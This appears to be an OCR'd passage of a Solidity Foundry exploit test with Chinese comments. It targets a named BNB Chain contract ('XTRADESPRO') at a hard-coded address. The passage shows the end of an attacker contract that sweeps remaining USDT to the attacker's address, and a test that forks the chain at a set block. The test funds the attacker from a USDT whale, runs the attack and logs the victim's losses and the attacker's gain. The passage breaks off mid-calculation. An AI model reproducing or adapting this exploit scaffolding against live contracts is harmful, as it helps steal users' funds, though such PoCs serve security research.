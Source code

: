```sol
        // 将资金转移给攻击者EOA
        uint256 remainingBalance = IERC20(USDT_TOKEN).balanceOf(address(this));
        if (remainingBalance > 0) {
            IERC20(USDT_TOKEN).transfer(ATTACKER_EOA, remainingBalance);
        }
        
        console.log(unicode"攻击执行完成，资金已转移给攻击者EOA");
    }
}

contract XTRADESPROExploitTestV2 is Test {
   address public ATTACKER_EOA;
   // 合约地址 (使用正确的校验和格式)
    address private constant VICTIM_CONTRACT = 0xB9D195022da410970676DC31E4aBBc19063DD158;
    address private constant USDT_TOKEN = 0x55d398326f99059fF775485246999027B3197955;
    
    address private constant USDT_WHALE = 0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE; // USDT持有者地址
    
    // 攻击合约实例
    AttackerV2 private attacker;
    
    function setUp() public {
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 64509651);
        // 部署攻击合约

        ATTACKER_EOA = makeAddr("ATTACKER_EOA");
        vm.prank(ATTACKER_EOA);
        attacker = new AttackerV2(ATTACKER_EOA);
        
        // 给攻击合约设置初始BNB用于支付Gas
        vm.deal(address(attacker), 10 ether);
        
        // 给攻击合约转入一些USDT用于支付费用
        vm.prank(USDT_WHALE);
        IERC20(USDT_TOKEN).transfer(address(attacker), 10000 * 1e18);
    }
    
    function testExploit() public {
        // 记录攻击前余额
        uint256 attackerBalanceBefore = IERC20(USDT_TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceBefore = IERC20(USDT_TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击前状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceBefore / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceBefore / 1e18);

        // 执行攻击
        vm.startPrank(ATTACKER_EOA);
        attacker.attack();
        vm.stopPrank();

        // 记录攻击后余额
        uint256 attackerBalanceAfter = IERC20(USDT_TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceAfter = IERC20(USDT_TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击后状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceAfter / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceAfter / 1e18);

        // 计算总获利（攻击者EOA余额 - 初始投入）
        uint256 initialInvestment = 26712204771447245411336;
        uint256 profit = attackerBalanceAfter - initialInvestment; // 减去初始投入的2万Token
```